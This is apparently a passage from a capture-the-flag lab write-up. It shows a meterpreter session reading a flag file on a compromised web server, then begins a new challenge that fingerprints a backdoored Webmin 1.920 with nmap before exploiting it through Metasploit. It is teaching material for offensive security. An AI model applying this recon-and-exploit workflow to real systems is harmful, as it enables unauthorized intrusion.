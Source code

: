 ```
----              ----   ----  -------------              ----
100777/rwxrwxrwx  517    fil   2010-04-30 23:46:26 +0530  .htaccess
100644/rw-r--r--  33     fil   2020-04-01 16:01:06 +0530  THIS_IS_FLAG31231234555
40777/rwxrwxrwx   4096   dir   2010-05-16 01:12:44 +0530  admin
40777/rwxrwxrwx   4096   dir   2010-05-16 01:12:44 +0530  backups
40777/rwxrwxrwx   4096   dir   2020-03-11 21:16:09 +0530  cache
40777/rwxrwxrwx   4096   dir   2010-07-17 20:17:26 +0530  components
40777/rwxrwxrwx   4096   dir   2010-05-17 18:15:34 +0530  core
40777/rwxrwxrwx   4096   dir   2010-05-16 01:12:46 +0530  filters
40777/rwxrwxrwx   4096   dir   2010-05-16 01:12:46 +0530  images
40777/rwxrwxrwx   4096   dir   2020-03-11 21:15:22 +0530  includes
100777/rwxrwxrwx  5719   fil   2010-05-06 19:18:54 +0530  index.php
40777/rwxrwxrwx   4096   dir   2010-05-16 01:17:44 +0530  install_
40777/rwxrwxrwx   4096   dir   2010-07-17 20:18:00 +0530  languages
100777/rwxrwxrwx  40191  fil   2010-04-23 20:21:10 +0530  license.rus.utf.txt
100777/rwxrwxrwx  23209  fil   2010-04-23 20:21:12 +0530  license.rus.win.txt
100777/rwxrwxrwx  17987  fil   2010-04-23 20:21:10 +0530  license.txt
40777/rwxrwxrwx   4096   dir   2010-05-16 01:12:46 +0530  migrate_
40777/rwxrwxrwx   4096   dir   2010-05-16 01:12:46 +0530  modules
40777/rwxrwxrwx   4096   dir   2010-05-16 01:12:46 +0530  plugins
100777/rwxrwxrwx  1549   fil   2010-04-23 20:21:12 +0530  readme.txt
40777/rwxrwxrwx   4096   dir   2010-07-17 20:18:28 +0530  templates
40777/rwxrwxrwx   4096   dir   2010-05-16 01:12:46 +0530  upload
100777/rwxrwxrwx  10726  fil   2010-05-16 01:17:44 +0530  url_rewrite.php
100777/rwxrwxrwx  51376  fil   2010-05-16 01:17:44 +0530  version_log.txt

meterpreter > cat THIS_IS_FLAG31231234555
6cc438c37e36a57afc61279167ebeb82
```

## Backdoored System Manager Tool 
>The target server is running a system management tool that contains a publicly known backdoor.
In this challenge, the attacker has to fingerprint the system management tool and exploit it using the appropriate Metasploit module.

Just as you might expect by now, I'll be conducting reconaissance, finding and weaponizing an exploit, then delivering a payload. As before, I'll utilize the nmap scripting engine to fingerprint the tool. One addition is the _-F_ flag, which tells nmap to only scan the top 100 ports, instead of the default top 1000.

```
root@attackdefense:~# nmap -AF 192.102.234.3 
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-06 23:23 IST
Nmap scan report for target-1 (192.102.234.3)
Host is up (0.000056s latency).
Not shown: 99 closed ports
PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.920 (Webmin httpd)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Login to Webmin
```

